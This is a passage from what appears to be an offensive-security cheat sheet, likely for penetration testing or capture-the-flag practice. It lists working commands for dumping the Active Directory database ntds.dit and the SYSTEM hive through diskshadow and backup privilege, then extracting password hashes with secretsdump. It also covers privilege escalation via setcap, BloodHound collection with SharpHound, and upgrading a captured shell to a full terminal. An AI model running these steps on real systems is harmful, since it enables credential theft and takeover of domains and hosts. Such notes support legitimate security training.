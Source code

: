 ```c
PS C:\> diskshadow /s <FILE>.txt
```

#### Copy ntds.dit

```c
PS C:\> Copy-FileSebackupPrivilege z:\Windows\NTDS\ntds.dit C:\temp\ndts.dit
```

#### Export System Registry Value

```c
PS C:\> reg save HKLM\SYSTEM c:\temp\system
```

Download `ndts.dit` and system and get the hashes from `secretsdump.py` of the impacket-suite.

### setcap

```c
$ setcap cap_setgid,cap_setuid+eip <FILE>
```

### SharpHound

> https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe

```c
PS C:\> .\SharpHound.exe --CollectionMethod All
```

### Shell Upgrade

```c
$ python -c 'import pty;pty.spawn("/bin/bash")'
```

or

```c
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```

```c
$ Ctrl + z
$ stty raw -echo
fg
Enter
Enter
$ export XTERM=xterm
```

Alternatively:

```c
$ script -q /dev/null -c bash
$ /usr/bin/script -qc /bin/bash /dev/null
```
